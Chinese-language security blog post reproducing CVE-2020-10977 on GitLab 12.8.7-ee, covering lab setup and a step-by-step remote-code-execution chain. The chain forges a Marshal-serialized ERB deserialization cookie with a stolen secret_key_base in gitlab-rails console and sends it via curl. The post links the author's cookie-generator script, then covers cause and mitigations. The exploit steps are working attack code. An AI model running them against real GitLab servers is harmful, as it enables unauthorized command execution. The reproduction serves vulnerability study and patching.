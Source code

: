 ```yaml
---
layout: about
category: about
Researchname: GitLab CVE-2020-10977 任意文件读取漏洞导致的RCE
toc: true
wrench: 2022-10-21
permalink: /about/GitLab-CVE-2020-10977-RCE/
author: Bin4xin
desc: 「Gitlab」
---
```


## 概述

> GitLab 是一个用于仓库管理系统的开源项目，使用Git作为代码管理工具，并在此基础上搭建起来的web服务。
>
> GitLab是由GitLabInc.开发
>
> 使用MIT许可证的基于网络的Git仓库管理工具，且具有wiki和issue跟踪功能。使用Git作为代码管理工具，并在此基础上搭建起来的web服务。

### 如何查看Gitlab Web版本

```
https://git-lab-domain.com/help
```

如果没有相关版本，那么需要先登录

![2022-04-29-11.40.26.png]({{site.PicturesLinks_Domain}}/images/2022/04/29/2022-04-29-11.40.26.png)

如果您是运维人员，可以输入以下命令查看：

```bash
$ cat /opt/gitlab/embedded/service/gitlab-rails/VERSION
```

### 零、概述

由[GitLab CVE-2020-10977 任意文件读取漏洞](/about/GitLab-CVE-2020-10977/)导致的RCE

### 0x01、影响版本

暂未可知；

通过作者在Hackerone的报告显示测试环境是：

```
GitLab information
Version: 12.8.7-ee
Revision: 2643fd87200
```

并且通过Gitlab官方的反馈是：

- Your finding has been patched in GitLab version 12.9.1

或许结合漏洞来源，一个可参考的说法是：

> GitLab GitLab CE/EE >=8.5 and < 12.9
>
> GitLab GitLab CE >=8.5，< 12.9

### 0x02、环境搭建

- 服务/受害端

```bash
$ docker run -it gitlab/gitlab-ee:{version.label} bash
```

或者yum安装；我这里的本地环境是选择与报告者 [@vakzz](https://hackerone.com/reports/827052) 一样的版本

- GitLab information
  - Version: 12.8.7-ee
  - Revision: 2643fd87200
  - Directory: /opt/gitlab/embedded/service/gitlab-rails
  - DB Adapter: PostgreSQL

<div class="content">
<p>
<a href="https://packages.gitlab.com/gitlab/gitlab-ee/packages/scientific/7/gitlab-ee-12.8.7-ee.0.el7.x86_64.rpm/download.rpm" class="btn-primary btn btn-block color-border-accent-emphasis" target="blank">
点击以下载 GitLab Ver 12.8.7-ee</a>
</p>
</div>

或者使用下面的命令下载：

```yml
on:
  push:
    branches:
      - main
      - 'releases/**'
```

```bash
wget --content-disposition https://packages.gitlab.com/gitlab/gitlab-ee/packages/scientific/7/gitlab-ee-12.8.7-ee.0.el7.x86_64.rpm/download.rpm
```

安装
```bash
yum -y install ./gitlab......12_8.7.rpm
```

> *TIPS:*
> 
> 1.`gitlab-ctl restart`后访问Gitlab返回502，再运行`gitlab-ctl reconfigure`即可。
>
> 2.`gitlab-ctl reconfigure`如果报错`No such file or directory`，运行以下命令

```bash
touch /opt/gitlab/embedded/etc/90-omnibus-gitlab-kernel.sem.conf
touch /opt/gitlab/embedded/etc/90-omnibus-gitlab-kernel.shmall.conf
touch /opt/gitlab/embedded/etc/90-omnibus-gitlab-net.core.somaxconn.conf
```

### 0x03、复现

- 攻击端：

先pull镜像，方便用`console`生成反序列化Cookie

```bash
docker pull gitlab/gitlab-ee:12.8.1-ee.0
```

进入console
```bash
$ /opt/gitlab/embedded/bin/runsvdir-start &
$ gitlab-ctl reconfigure
$ vi /opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml
# 替换secret_key_base为服务/受害端的secret_key_base
$ gitlab-rails console
```

> 需要注意的是，修改配置yml文件后，就不需要reconfigure了，不然生成新的secret_key_base会覆盖修改的。

- `gitlab-rails console` 攻击代码

```ruby
request = ActionDispatch::Request.new(Rails.application.env_config)
```

```ruby
request.env["action_dispatch.cookies_serializer"] = :marshal
```

```ruby
cookies = request.cookie_jar
```

```ruby
erb = ERB.new("<%= `echo from CVE-2020-10977 > /tmp/flags` %>")
```

```ruby
depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new)
```

```ruby
cookies.signed[:cookie] = depr
```

```ruby
puts cookies[:cookie]
```

访问：

```bash
$ curl -k -vvv 'https://git-lab-domain.com/users/sign_in' -b "experimentation_subject_id={cookies[:cookie]}"
```

当然，我们也编写了相关的EXP供查阅，权当抛砖引玉；

[Bigger-than-Bigger::CoVV/Gitlab/CVE-2020-10977::cookie_generater.sh](https://github.com/Bin4xin/bigger-than-bigger/tree/master/CoVV/Gitlab/CVE-2020-10977){:target="_blank"}

```console

    C(ollection) O(f) V(erified) V(ulnerabilities) : cookie_generater.sh in
    https://github.com/Bin4xin/bigger-than-bigger
    Author: bin4xin <bin4xin@sentrylab.cn>
    Bash scripts to generate cookies out of [gitlab-rails console].
    (RCE due to CVE-2020-10977 <local file read>) visit https://hackerone.com/reports/827052
     _     _                             _    _                      _     _
    | |__ (_) __ _  __ _  ___  _ _  ___ | |_ | |_   __ _  _ _   ___ | |__ (_) __ _  __ _  ___  _ _
    | '_ \| |/ _\ |/ _\ |/ -_)| '_||___||  _|| ' \ / _| || ' \ |___|| '_ \| |/ _\ |/ _\ |/ -_)| '_|
    |_.__/|_|\__, |\__, |\___||_|        \__||_||_|\__,_||_||_|     |_.__/|_|\__, |\__, |\___||_|
             |___/ |___/                                                     |___/ |___/

    USAGE: bash cookie_generater.sh command [$command] [$url]
    SUCH AS: bash cookie_generater.sh [cmd|--cmd|-c] "touch /tmp/success" 8.8.8.8
    [help|--help|-h]: 	 	 print help message. 打印帮助信息
    [cmd|--cmd|-c]: 	 	 generate cookies mode. 生成COOKIE
    [$command]: 	 	 command you want to execute. 要执行的命令
    [$url]: 	 	 gitlab vuln url (unnecessary). gitlab地址，非必要
```

有兴趣可以点击链接查看，欢迎斧正。

### 一、思考

### 1x01、代码分析

```ruby
# /opt/gitlab/embedded/service/gitlab-rails/config/initializers/cookies_serializer.rb
# Be sure to restart your server when you modify this file.

Rails.application.config.action_dispatch.use_cookies_with_metadata = false
Rails.application.config.action_dispatch.cookies_serializer = :hybrid
```

作者提到`cookies_serializer.rb`中默认的`cookies_serializer = :hybrid`导致了RCE；

> 多说一句，插入Cookie这个利用方式和Shiro反序列化WEB利用方式有点像(o_O)

### 二、修复

### 2x01、 关闭注册功能

大部分问题都是通过匿名用户注册后，在仓库内操作导致的问题，故：取消游客的注册能够减少80%的问题

以Admin用户登录后，进入：

`Admin Area` -> `Setting` -> `Sign-up restrictions`

确保`Sign-up Restrictions` 下 `Sign-up enabled`为未勾选状态。

### 2x02、更新版本

- 但取消注册后，或许仍然有一些不需要授权的漏洞，所以尽可能保持软件的版本与上游版本保持一致；

### 三、参考

{% include wrench-inject.html %}

- [Hacker one- Arbitrary file read via the UploadsRewriter when moving and issue](https://hackerone.com/reports/827052){:target="_blank"}
- [Github 404::~~CVE-2020-10977 Gitlab任意文件读取导致远程命令执行~~](https://github.com/EdgeSecurityTeam/Vulnerability/blob/main/CVE-2020-10977%20Gitlab%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E5%AF%BC%E8%87%B4%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C.md){:target="_blank"}
- [GitLab任意文件读取漏洞复现(CVE-2020-10977)](https://zhuanlan.zhihu.com/p/340584527/){:target="_blank"}
- [GitLab任意文件读取漏洞CVE-2020-10977](https://www.freebuf.com/vuls/235982.html){:target="_blank"}
- [HackTheBox — Laboratory Writeup](https://coldfusionx.github.io/posts/LaboratoryHTB/){:target="_blank"}
- [CentOS 7手把手教你搭建gitlab环境](https://juejin.cn/post/6871249593749733383){:target="_blank"}
- [gitlab注销注册功能](https://blog.csdn.net/weixin_43606948/article/details/85222499){:target="_blank"}
